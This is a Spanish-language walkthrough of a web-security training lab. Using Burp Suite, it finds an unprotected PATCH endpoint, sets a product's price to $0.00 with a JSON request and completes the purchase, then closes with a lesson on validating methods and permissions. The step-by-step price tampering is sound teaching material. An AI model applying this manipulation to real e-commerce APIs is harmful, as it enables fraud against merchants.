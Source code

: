 
---

# 🧪 Lab: Manipulación de API para modificar precios (Burp Suite)

## 🎯 Objetivo del laboratorio

Modificar el precio de un producto usando la API, bajándolo a `$0.00` y realizar la compra para completar el desafío.

---

## 🛠️ Herramientas utilizadas

- **Burp Suite Pro / Community**
    
- **Navegador integrado de Burp**
    
- **Credenciales del laboratorio**: `wiener:peter`
    

---

## 🔍 Paso a paso

### 1. Iniciar sesión

Nos autenticamos en la aplicación con las credenciales proporcionadas:

```
Usuario: wiener
Contraseña: peter
```

Esto nos da acceso a las funciones que requieren autenticación.

---

### 2. Identificar la solicitud vulnerable

Desde el **navegador de Burp**, navegamos a la página del producto _"Chaqueta de cuero ligera l33t"_.  
En `Proxy > HTTP history`, ubicamos una solicitud como esta:

```
GET /api/products/1/price
```

---

### 3. Verificar métodos permitidos (opcional)

Enviamos esta solicitud al **Repeater** y cambiamos el método de `GET` a `OPTIONS` para ver qué métodos son aceptados:

```http
OPTIONS /api/products/1/price
```

La respuesta nos dice que están permitidos:

```
Allow: GET, PATCH
```

---

### 4. Intentar cambiar el precio

Ahora cambiamos el método de `GET` a `PATCH` para tratar de modificar el valor del producto.  
Sin embargo, obtenemos:

```
HTTP/2 401 Unauthorized
```

---

### 5. Asegurar autenticación

Nos aseguramos de estar **logueados** (lo hicimos al inicio), y volvemos a enviar la solicitud desde Repeater, esta vez agregando los headers necesarios y el cuerpo en formato JSON.

---

### 6. Corregir Content-Type

El error que aparece ahora es debido a que falta el header:

```
Content-Type: application/json
```

Lo añadimos manualmente.

---

### 7. Modificar el cuerpo de la solicitud

Primero probamos con un objeto JSON vacío `{}`, pero obtenemos un error indicando que falta el parámetro `price`.

Entonces corregimos el cuerpo a:

```json
{
  "price": 0
}
```

---

### ✅ Resultado exitoso

Tras enviar esta solicitud:

```http
PATCH /api/products/1/price HTTP/2
Host: <tu-lab>.web-security-academy.net
Content-Type: application/json
Cookie: session=...
```

**Respuesta:**

```json
{
  "price": "$0.00"
}
```

📸 **Captura de Burp:**  
![[Pasted image 20250502235628.png]]

---

### 8. Finalizar la compra

1. Volvemos a la página del producto → el precio ahora es `$0.00`.
    
2. Hacemos clic en **Agregar a la cesta**.
    
3. Vamos al carrito y presionamos **Realizar pedido**.
    

🔓 ¡Laboratorio completado!

---

## 💡 Conclusión

Este laboratorio demuestra la importancia de validar tanto el método HTTP como los permisos de usuario al interactuar con APIs sensibles. Si una API expone métodos como `PATCH` sin protección adecuada, un atacante podría manipular valores críticos como precios, permisos, etc.

---

